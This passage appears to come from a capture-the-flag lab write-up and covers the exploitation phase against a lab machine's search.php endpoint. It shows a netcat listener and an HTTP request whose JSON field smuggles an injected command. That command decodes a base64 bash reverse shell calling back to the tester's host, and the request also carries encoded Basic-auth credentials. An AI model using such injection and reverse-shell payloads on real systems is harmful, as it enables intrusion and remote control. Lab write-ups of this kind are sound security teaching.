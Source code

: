 ## Phase #2: Exploitation
1\. We further leverage the command execution vulnerability to get interactive access on the target machine. For this, we first start a local netcat listener and use a bash reverse shell:  
```
nc -nlvp 4433

POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI2LjE4OS80NDMzIDA+JjE=' | base64 -d | bash \n"}
```

![writeup.exploitation.steps.1.1](/static/files/posts_thm_yotf/screenshot08.png.webp)  
